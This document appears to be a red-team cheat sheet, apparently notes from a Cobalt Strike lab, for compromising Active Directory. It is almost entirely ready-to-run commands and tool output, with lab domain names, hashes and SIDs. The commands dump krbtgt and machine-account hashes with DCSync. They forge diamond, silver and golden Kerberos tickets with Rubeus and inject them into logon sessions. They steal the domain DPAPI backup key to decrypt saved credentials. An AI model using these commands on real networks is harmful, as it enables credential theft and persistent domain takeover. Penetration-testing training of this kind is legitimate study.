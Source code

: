 
##### DCSync

Obtain krbtgt hash and machine account hash
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

dcsync contoso.com CONTOSO\lon-db-1$

512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c
bc6fd6e8519b52e09f60961beeee083a441c25908e30a6c29b124b516e06945f
cce3f72b3b4bcffe0af7979588b885b6
```

---
##### Diamond Ticket

> **From the medium-integrity Beacon**:

Use AES256 hash of the `krbtgt` account to create a diamond ticket
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /ticketuser:Administrator /ticketuserid:500 /domain:CONTOSO.COM /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Diamond Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

---

##### DPAPI Backup Key Abuse

> From the medium-integrity Beacon

Within a Domain Admin session Recover the domain's backup DPAPI key.
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey

```

Drop the impersonation and use the key to decrypt credentials stored in the Credential Manager
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:
```

---
##### Silver Ticket

> This can be done locally offline on your machine

Use AES256 machine hash to forge silver ticket (any service can be used)
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/lon-db-1 /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Silver Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

### USING SERVICE ACCOUNT

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /user:MSSQLSvc /domain:dublin.contoso.com /password:Passw0rd!

[*] Action: Calculate Password Hash(es)

[*] Input password             : Passw0rd!
[*] Input username             : mssql_svc
[*] Input domain               : CONTOSO.COM
[*] Salt                       : CONTOSO.COMmssql_svc
[*]       rc4_hmac             : FC525C9683E8FE067095BA2DDC971889
[*]       aes128_cts_hmac_sha1 : 53B5F3804FBF13E7DD624E71D18DF9BB
[*]       aes256_cts_hmac_sha1 : E4A51DAD46B6D1BA85627EEC82991C8FC94C279CE06140751E02BA015E6A21F9
[*]       des_cbc_md5          : DF91ECCDAE70BA0E
```

Then forge the service ticket for MSSQLSvc/dub-sql-2.dublin.contoso.com.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/dub-sql-2.dublin.contoso.com /rc4:FC525C9683E8FE067095BA2DDC971889 /user:nwallace /id:4102 /groups:513,1106,1107,4602 /domain:CONTOSO.COM /sid:S-1-5-21-2958544638-1589230383-838459903 /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/dub-sql-2.dublin.contoso.com /rc4:FC525C9683E8FE067095BA2DDC971889 /user:nwallace /ldap /domain:dublin.contoso.com /sid:S-1-5-21-2958544638-1589230383-838459903 /nowrap

```

Where:

- `/id` is the RID for rsteel.
    
- `/groups` are the RIDs of rsteel's group membership.  513 is 'Domain Users', 1106 is 'Workstation Admins', 1107 is 'Server Admins', and 4602 is 'Database Admins'.

```powershell
make_token DUBLIN\nwallace FakePass

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist

execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:lon-db-1.contoso.com /m:info

```


---
##### Golden Ticket

> This can be done locally offline on your machine

Use AES256 hash of the `krbtgt` account to forge a golden ticket as the default DA
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject GOlden Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```